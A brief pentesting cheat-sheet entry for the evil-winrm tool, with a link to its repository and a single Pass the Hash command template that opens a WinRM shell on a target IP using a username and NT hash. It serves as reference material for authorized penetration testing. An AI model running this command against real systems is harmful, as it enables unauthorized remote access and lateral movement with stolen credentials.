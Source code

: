 ```yaml
---
title: EVIL-WINRM
summary: A WinRM shell for pentesting
description: A WinRM shell for pentesting
---
```


**[https://github.com/Hackplayers/evil-winrm](https://github.com/Hackplayers/evil-winrm)**

## Pass the Hash


 > 
 > **<font color=red>evil-winrm -i</font> \[TARGET_IP\] <font color=red>-u</font> \[myUser\] <font color=red>-H </font>\[myUserNTHASH\]**</br>
 > Pass the Hash attack (NT Hash).
